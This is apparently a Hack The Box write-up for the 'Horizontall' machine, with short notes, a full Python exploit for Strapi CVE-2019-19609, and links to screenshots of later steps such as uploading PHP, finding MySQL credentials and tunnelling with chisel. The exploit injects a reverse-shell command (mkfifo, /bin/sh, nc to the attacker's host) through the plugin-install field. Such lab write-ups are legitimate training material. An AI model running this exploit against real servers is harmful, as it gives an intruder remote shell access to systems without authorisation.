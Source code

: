 ```yaml
---
title: "Horizontall (images only)"
date: 2021-08-29T18:00:00-00:00
publishdate: 2022-04-28T18:00:00-00:00
releasedate: 2021-08-28T18:00:00-00:00
draft: false
hideTitle: false
Cover: /htb-info-cards/Horizontall.png
icon: /htb-box-icons/Horizontall.png
toc: true
tags: ["Laravel"]
categories: ["Walkthrough", "HTB", "Linux", "Easy"]
---
```


## Introduction

This walkthrough is just a series of screenshots showing how I got through the box. :man_shrugging: I did this box before I really worked out a process for recording my work effectively. Sorry!

If I find the time, I'll come back to this and try to document it properly. 



## Walkthrough

These are the notes I left for myself:

```
Found login page at http://api-prod.horizontall.htb/admin/auth/login

I could brute-force the login just with ffuf
Or I could try using the OpenSSH user enumeration CVE to obtain a list of users first?

The successful exploit was from https://github.com/dasithsv/CVE-2019-19609
I simply modified the port, (opened the firewall), set up a nc listener and got a shell
rhost was api-prod.horizontall.htb
lhost was 10.10.14.45
jwt was simply the jwt from my logged-in admin session (got it from firefox web dev tools)
url was http://api-prod.horizontall.htb/
```

This is the exploit I used:

```python
#!/bin/python

# Product: Strapi Framework
# Version Affected: strapi-3.0.0-beta.17.7 and earlier
# Fix PR: https://github.com/strapi/strapi/pull/4636
# NPM Advisory: https://www.npmjs.com/advisories/1424
# more information https://bittherapy.net/post/strapi-framework-remote-code-execution/

import requests
import sys

print("\n\n\nStrapi Framework Vulnerable to Remote Code Execution - CVE-2019-19609")
print("please set up a listener on port 31337 before running the script. you will get a shell to that listener\n")

if len(sys.argv) ==5:
    rhost = sys.argv[1]
    lhost = sys.argv[2]
    jwt = sys.argv[3]
    url = sys.argv[4]+'admin/plugins/install'

    headers = {
        'Host': rhost,
        'Authorization': 'Bearer '+jwt,
        'Content-Type': 'application/json',
        'Content-Length': '131',
        'Connection': 'close',
    }

    data = '{ "plugin":"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc '+lhost+' 31337 >/tmp/f)", "port":"80" }'
    response = requests.post(url, headers=headers, data=data, verify=False)

else:
    print('python3 exploit.py <rhost> <lhost> <jwt> <url>')

```



![00-first step](00-first%20step.png)

![01-api-prod enum](01-api-prod%20enum.png)

![02-login page post](02-login%20page%20post.png)

![03-password-reset-possibly-abusable](03-password-reset-possibly-abusable.png)

![04-strapi version](04-strapi%20version.png)

![05-exploit-success](05-exploit-success.png)

![06-logged-in-dashboard](06-logged-in-dashboard.png)

![07-making a user](07-making%20a%20user.png)

![08-uploaded-php](08-uploaded-php.png)

![09-modifying reverse shell](09-modifying%20reverse%20shell.png)

![15-hints of a database](15-hints%20of%20a%20database.png)

![20-mysql credentials in developer folder](20-mysql%20credentials%20in%20developer%20folder.png)

![22-got into mysql db](22-got%20into%20mysql%20db.png)

![34-version fingerprinting laravel](34-version%20fingerprinting%20laravel.png)

![35-version fingerprinting laravel](35-version%20fingerprinting%20laravel.png)

![40-setting up chisel tunnel](40-setting%20up%20chisel%20tunnel.png)

![45-trying out the exploit](45-trying%20out%20the%20exploit.png)

![49-getting root flag easy way](49-getting%20root%20flag%20easy%20way.png)

![50-got root flag](50-got%20root%20flag.png)

![55-getting flag itself](55-getting%20flag%20itself.png)

